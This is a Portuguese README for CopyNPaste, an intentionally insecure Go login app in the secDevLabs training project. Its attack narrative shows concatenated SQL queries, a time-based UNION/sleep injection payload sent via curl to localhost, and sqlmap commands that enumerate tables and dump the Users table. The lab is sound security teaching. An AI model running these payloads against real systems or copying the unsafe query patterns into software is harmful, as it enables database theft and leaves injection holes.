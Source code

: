 # CopyNPaste API

[Access content in English](README.md)

<img src="images/CopyNPaste.png" align="center"/>

CopyNPaste é uma aplicação web Golang que usa uma API e um front-end simples para simular uma página de login. Possui rotas `/register` e `/login` que, ao se comunicar com um banco de dados MySQL, permitem que os usuários se registrem e entrem em um sistema genérico. 

## Index

- [Definição](#o-que-é-injeção)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é injeção?

Falhas de injeção, como injeção de SQL, NoSQL, SO e LDAP, ocorrem quando dados não confiáveis ​​são enviados a um interpretador como parte de um comando ou consulta. Os dados hostis do invasor podem induzir o intérprete a executar comandos não intencionais ou acessar dados sem a devida autorização.

O principal objetivo deste projeto é discutir como as vulnerabilidades de **SQL Injection** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/copy-n-paste
```

```sh
make install
```

Depois é só visitar [localhost:10001][app], conforme exemplificado abaixo:

<img src="images/CopyNPaste.png" align="center"/>

## Conheça o app 💉

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples: 

- Registre um novo usuário via front-end.
- Faça login como este usuário via front-end.

- Registre outro usuário agora usando a linha de comando:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:10001/register
```

- Faça login como este segundo usuário agora usando a linha de comando:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:10001/login

```

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A falta de validação de entrada permite a injeção de consultas SQL

Depois de revisar `NewUser()` , `CheckIfUserExists()` e `AuthenticateUser()` de [`db.go`](<(https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a3/copy-n-paste/app/util/db.go#)>), foi possível ver que algumas entradas de usuários estão concatenadas com consultas SQL, conforme mostrado nos seguintes trechos de código:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

Como nenhuma validação está sendo feita nessas variáveis, as injeções de SQL podem ser executadas com sucesso no banco de dados. Usando a interface web, podemos enviar algumas informações, usando o formulário da "página de inspeção", para entender melhor como ela se comunica com a API.

<img src="images/attack-0.png" align="center"/>

Para confirmar que o campo de entrada é vulnerável, a seguinte carga útil pode ser usada para testar se um atraso de 5 segundos será observado após o envio:

```
-1' UNION select 1,2,sleep(5) -- '
```

<img src="images/attack-1.png" align="center"/>

Usando `curl` na interface CLI, podemos testá-lo novamente, desta vez com um atraso maior de 30 segundos:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:10001/login
```

Requisição:

<img src="images/attack-2.png" align="center"/>

30 segundos depois, confirmando que podemos executar comandos no servidor: 

<img src="images/attack-3.png" align="center"/>

#### 🔥

Um invasor pode agora criar qualquer consulta SQL maliciosa e enviá-la para a API que, em teoria, seria executada. Para esta narrativa de ataque, [sqlmap](https://github.com/sqlmapproject/sqlmap) será usado para exemplificar como um ataque automatizado de SQL Injection pode ser executado.

Para instalar o sqlmap em um Mac você pode simplesmente digitar:

```sh
brew install sqlmap
```

O primeiro passo possível é criar um arquivo, `postRequest.txt`, contendo o próprio HTTP POST, conforme mostrado no código a seguir:


```sh
POST /login HTTP/1.1
Host: 127.0.0.1:10001
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Antes de executar o ataque, você pode abrir uma nova aba em seu terminal e digitar o seguinte comando para observar como as solicitações maliciosas serão recebidas pelo app:

```sh
docker logs a1_api -f
```

Depois disso, agora podemos usar a opção `-r` e esperar que o sqlmap execute várias solicitações maliciosas até encontrar o parâmetro vulnerável:

```sh
sqlmap -r postRequest.txt
```

<img src="images/attack-4.png" align="center"/>

Depois de entender como esse banco de dados é estruturado, um invasor pode usar o seguinte comando para recuperar os detalhes do banco de dados:

```sh
sqlmap -r postRequest.txt --tables
```

E, em seguida, recupere informações confidenciais dele:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="images/attack-5.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute consultas SQL no banco de dados.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
[secdevlabs]: https://github.com/globocom/secDevLabs

